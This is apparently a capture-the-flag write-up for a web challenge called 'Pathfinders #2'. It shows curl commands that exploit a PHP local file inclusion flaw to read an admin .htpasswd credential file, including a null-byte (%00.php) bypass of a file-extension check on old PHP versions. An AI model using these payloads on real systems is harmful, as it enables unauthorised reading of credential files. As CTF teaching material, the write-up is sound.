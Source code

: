 # Pathfinders #2
**Category:** [Internet](../README.md)

**Points:** 20

**Description:**

It seems they updated their security. can you get the password for their admin section on their new site?

http://timesink.be/pathfinder2/

<sub><sup>oh yeah, let's assume they are running a php version below 5.3.4 here...</sup></sub>

## Write-up
The solution to this is based on the solution to Pathfinders #1, where the admin authentication details could be accessed due to a file inclusion by *index.php*:
```
curl http://timesink.be/pathfinder/index.php?page=admin/.htpasswd
```
However, in Pathfinders #2, the website has been updated to only allow PHP files to be included, so if we try the same for Pathfinders #2, we get:
```
> curl http://timesink.be/pathfinder2/index.php?page=admin/.htpasswd
file not ending in .php, terminating.
```

The hint in the CTF description is that we are running a *PHP version below 5.3.4*. A quick Google search for `php 5.3.4 vulnerabilities` and a little bit of looking through the results bought up [this page](https://ctf-wiki.org/web/php/php/).

After translating the page, it can be seen that we can try using `%00.php` in a URL to get past the `.php` ending check, and it will truncate the `%00.php` from the end of the URL when the file is included. We wrote a `get_flag.sh` script to test this:
```bash
#!/bin/sh
curl http://timesink.be/pathfinder2/index.php?page=admin/.htpasswd%00.php
```
Running this worked and gave us the flag

